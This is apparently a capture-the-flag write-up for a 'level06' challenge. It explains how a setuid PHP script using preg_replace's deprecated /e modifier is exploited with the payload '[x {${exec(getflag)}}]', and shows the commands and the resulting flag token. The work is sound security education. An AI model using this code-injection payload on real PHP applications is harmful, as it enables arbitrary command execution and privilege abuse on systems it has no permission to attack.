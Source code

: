# Level 06

## Resolution

As `level06`, running `ls` gives us a binary called `level06` and a PHP script named `level06.php` inside our home folder. Here's the sourcecode for the latter.

```php
  $> cat level06.php
  
  #!/usr/bin/php
  <?php
    function y($m) {
      $m = preg_replace("/\./", " x ", $m);
      $m = preg_replace("/@/", " y", $m);
      
      return $m;
    }

    function x($y, $z) {
      $a = file_get_contents($y);
      $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
      $a = preg_replace("/\[/", "(", $a);
      $a = preg_replace("/\]/", ")", $a);
      
      return $a; 
    }
    
    $r = x($argv[1], $argv[2]);
    print $r;
  ?>
```

> This script basically takes two arguments (the second is useless), the first one must be an existing file. It opens it, do a bunch of regular expression stuff on it and then prints the result on standard output.

The interesting part, the following line:

```php
$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
```

> This regex uses a deprecated PHP only modifier infamously known for its security issues. Every occurence that matches the expression will be evaluated as PHP code. If we correctly format our file content we could execute arbitrary code with it.

Running `ls -l` to get more infos...

```shell
  $> ls -l
  total 12
  -rwsr-x---+ 1 flag06 level06 7503 Aug 30  2015 level06    
  -rwxr-x---  1 flag06 level06  356 Mar  5  2016 level06.php
```

Both files belong to `flag06` who has the right to execute `getflag`. So, like previous levels, we simply need to tinker our file content to call it and retrieve the flag. 

```shell
  $> echo '[x {${exec(getflag)}}]' > /tmp/getflag
  $> ./level06 /tmp/getflag
  PHP Notice:  Use of undefined constant getflag - assumed 'getflag' in /home/user/level06/level06.php(4) : regexp 
code on line 1
  PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub in /home/user/level06/level06.php(4) : regexp code on line 1
```

> Using [curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex) we can ask PHP to replace a variable by its value. This way after `exec` evaluation the output message of `getflag` becomes the variable we try to access. Since PHP does not know it, an error with the original output is sent back to us.

So, `wiok45aaoguiboiki2tuin6ub` is the flag for this level.


## Ressources

- [Regex modifier vulnerability](https://stackoverflow.com/questions/16986331/can-someone-explain-the-e-regex-modifier)
- [PHP curly syntax](https://www.php.net/manual/en/language.types.string.php#language.types.string.parsing.complex)